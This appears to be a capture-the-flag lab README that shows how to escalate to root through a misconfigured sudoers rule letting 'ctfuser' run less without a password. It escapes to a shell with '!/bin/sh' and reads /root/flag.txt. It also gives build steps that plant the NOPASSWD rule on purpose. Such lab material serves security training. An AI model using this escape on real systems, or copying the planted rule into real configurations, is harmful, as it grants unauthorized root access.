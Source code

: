 # Misconfigured Sudoers (Challenge 5)

## Description
A misconfigured sudoers rule allows the user to run as root without a password. This can be exploited to gain a root shell and read the flag.

# Solution
1. Connect to the container:
   ```bash
   docker exec -it challenge5 bash
   ```
2. Check sudo privileges:
   ```bash
   sudo -l
   ```
   You will see that `ctfuser` can run `/usr/bin/less` as root without a password.
3. Run less as root on any readable file:
   ```bash
   sudo /usr/bin/less /etc/hosts
   ```
4. Inside `less`, type:
   ```
   !/bin/sh
   ```
   and press Enter to spawn a root shell.
5. From the root shell, read the flag:
   ```bash
   cat /root/flag.txt
   ```

# Recreating this challenge
1. Create a working directory `challenge5` with a subfolder `app`.
2. Place `flag.txt` in the build context with the desired flag. This will be copied into `/root/flag.txt` with `chmod 600`.
3. Create a sudoers snippet (`ctfuser_sudoers`) containing:
   ```
   ctfuser ALL=(ALL) NOPASSWD: /usr/bin/less
   ```
4. Write a Dockerfile based on `ubuntu:20.04` or similar:
   - Create user `ctfuser`.
   - Install `sudo` and `less`.
   - Copy `flag.txt` to `/root/flag.txt` and set permissions.
   - Copy the sudoers snippet to `/etc/sudoers.d/` with mode `0440`.
   - Set `ctfuser` as the default user and keep the container running.
5. Build the image and run the container.
